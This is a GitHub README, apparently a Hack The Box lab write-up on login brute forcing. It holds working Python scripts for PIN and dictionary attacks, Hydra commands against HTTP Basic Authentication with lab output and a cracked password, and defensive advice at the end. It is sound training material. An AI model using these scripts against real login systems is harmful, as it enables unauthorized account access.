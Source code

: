 # BruteForceAttacks
Login Brute Forcing techniques, utilizing Hydra, Medusa, Python (requests), cURL, and Nmap to exploit weak authentication mechanisms in HTTP, SSH, FTP.

By Ramyar Daneshgar 

### **Understanding the Attack Vector**
Brute force attacks exploit the fact that systems often implement weak authentication mechanisms with limited input spaces. In this case, the target system uses a 4-digit PIN as a security measure, making it vulnerable to an exhaustive search attack. Since a 4-digit PIN has only 10,000 possible combinations (0000-9999), iterating through all possible values is computationally trivial.

### **Implementation Strategy**
To automate the attack, I wrote a Python script (`solver.py`) that:
1. **Sends HTTP GET requests to the target server** using the format `http://STMIP:STMPO/pin?pin={formatted_pin}`.
2. **Iterates through all possible 4-digit PINs**, formatting them to ensure leading zeros are preserved.
3. **Checks the server’s response** for the correct PIN by verifying if the response contains a success flag.
4. **Terminates upon finding the correct PIN** to avoid unnecessary requests.

#### **Code Execution**
```python
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO  # Change this to your instance port number

for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Ensure the PIN is always a 4-digit string
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():  
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Predictable Input Space:** Since the PIN length is only 4 digits, the number of possible combinations is small.
- **No Rate Limiting or Lockout Mechanism:** The script assumes there’s no brute-force protection, such as account lockouts or rate limiting, allowing an attacker to exhaustively test all PINs without consequence.
- **Efficient Checking:** The script stops immediately once the correct PIN is found, reducing unnecessary network traffic.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct PIN found: 3424
Flag: {hidden}
```
This confirms the vulnerability of the authentication mechanism and provides the required flag.

---

## **Dictionary Attacks**
### **Question 1: After successfully brute-forcing the target using the script, what is the full flag the script returns?**

### **Understanding the Attack Vector**
Unlike brute-force attacks that try all possible values, **dictionary attacks leverage common passwords** from predefined lists. These attacks are effective because users often choose weak passwords found in public leaks or common password lists.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a common password list** (`500-worst-passwords.txt`) from GitHub’s SecLists repository.
2. **Iterated through the list** and attempted authentication using each password.
3. **Sent HTTP POST requests** to the target’s authentication endpoint.
4. **Checked responses for success** by looking for the `flag` keyword in the JSON response.

#### **Code Execution**
```python
import requests

ip = "STMIP"
port = STMPO

passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Users Choose Weak Passwords:** Many users pick passwords that are easy to remember but also easy to guess.
- **Publicly Available Password Lists:** The script uses a well-known repository of weak passwords, increasing the likelihood of success.
- **No Account Lockout Mechanism:** If the system doesn’t enforce account lockouts or rate limits, attackers can test thousands of passwords without detection.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct password found: gateway
Flag: {hidden}
```
This confirms that the system is susceptible to dictionary-based attacks.

---

## **Basic HTTP Authentication**
### **Question 1: After successfully brute-forcing and logging into the target, what is the full flag you find?**

### **Understanding the Attack Vector**
Basic HTTP authentication is a simple authentication scheme that sends usernames and passwords in Base64 encoding. If credentials are weak or guessable, they can be brute-forced easily.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a wordlist of common passwords** (`2023-200_most_used_passwords.txt`).
2. **Used Hydra**, a popular password-cracking tool, to perform an HTTP GET request brute-force.
3. **Checked responses for successful authentication**.

#### **Code Execution**
```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt STMIP http-get / -s STMPO
```

### **Why This Works**
- **HTTP Basic Authentication Uses Base64 Encoding:** Base64 is not encryption but an encoding format, meaning credentials can be decoded easily.
- **Weak Credentials Are Common:** Many services use easily guessable usernames (e.g., `admin`, `user`, `test`) and weak passwords.
- **No Rate Limiting or Account Lockout:** The attack assumes no protection mechanisms are in place.

### **Execution and Outcome**
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.54.201 http-get / -s 52992
[52992][http-get] host: 94.237.54.201   login: basic-auth-user   password: Password@123
```
After obtaining valid credentials, I used `curl` to log in and retrieve the flag:
```shell
curl http://STMIP:STMPO -u "basic-auth-user:Password@123" | grep HTB{
```
This returned:
```html
<p>You found the flag: <span class="flag">{hidden}</span></p>
```

---

## **Key Takeaways**
1. **Brute-force attacks** exploit predictable input spaces (e.g., PINs, limited character passwords).
2. **Dictionary attacks** take advantage of users choosing weak or common passwords.
3. **HTTP Basic Authentication is insecure** when weak credentials are used and no brute-force protection exists.
4. **Rate limiting, account lockouts, and multi-factor authentication (MFA)** are essential to prevent these attacks.

### **How to Defend Against These Attacks**
- **Implement Account Lockout Mechanisms:** Lock accounts after multiple failed attempts.
- **Use Strong Password Policies:** Enforce long, complex passwords.
- **Enable Rate Limiting:** Restrict the number of login attempts per user/IP.
- **Deploy Multi-Factor Authentication (MFA):** Require an additional authentication factor.
- **Avoid Using HTTP Basic Authentication:** Instead, use more secure authentication mechanisms like OAuth or JWT.


